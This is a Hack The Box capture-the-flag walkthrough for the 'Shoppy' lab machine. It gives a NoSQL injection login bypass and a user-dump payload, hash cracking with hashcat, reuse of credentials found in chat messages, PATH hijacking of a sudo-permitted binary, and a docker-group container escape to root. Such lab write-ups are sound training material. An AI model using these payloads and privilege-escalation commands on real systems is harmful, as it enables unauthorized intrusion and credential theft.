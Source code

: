 ```yaml
---
title: Shoppy

date: 2022-12-31 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [nosql, mongodb, hashcat, john, ghidra, PATH, docket, DNS]
---
```


<https://app.hackthebox.com/machines> Bypass a login screen with NoSQL injection, enumerate credentials on subdomains, reverse engineer a password protecter and privesc and escape docker container.

Initial nmap scans gve us a few ports and an http server on 80 that needs to be setup in hosts to access. http://shoppy.htb

Running `feroxbuster` we find a `/login` on port 80

Check for subdomains `wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://shoppy.htb' -H "Host: FUZZ.shoppy.htb" --hc 301`

we find `mattermost` add it to the /etc/hosts

We can bypass the login screen using nosql injection

- `user=' || 1==1%00&pass=' || 1==1%00`

Then searching for users we can use the following to dump all users

- `http://shoppy.htb/admin/search-users?username=admin'||'1==1`

```
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
1	
_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"
```

- `hashcat -m 0 shoppy.htb.hashes.josh /usr/share/wordlists/rockyou.txt`

and we get joshs pass: 6ebcea65320589ca4f2f1ce039975995:remembermethisway

We can login the the mattermost subdomain with their credentials.

Checking the recent mentions we have a note from jaeger

```
or the deploy machine, you can create an account with these creds :
username: jaeger
password: Sh0ppyBest@pp!
And deploy on it. 
```

also 

```
josh
1:25 AM

Oh I forgot to tell you, that we're going to use docker for the deployment, so I will add it to the first deploy 
```

We can login via ssh with jaeger creds. and get user.txt flag

Checking sudo -l we can run the following command `sudo -u deploy /home/deploy/password-manager` which 

basically looks for creds then when proper creds inserted executes `cat /home/deploy/creds.txt`. now this isnt using the full path so we should be ablt to use PATH escalation. Create a cat file in /tmp with bash -i then add /tmp to PATH. export PATH=/tmp:$PATH then using ghidra we find the password for the manager is Sample. Running the file we get deploy creds.


```
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

su to deply

checkng id and as expected we are inside a docker container and since we now have a user that belongs to the docker group we can escape. https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

- `find / -name docker.sock 2>/dev/null`
- `docker run -it -v /:/host/ alpine chroot /host/ bash`

and we're root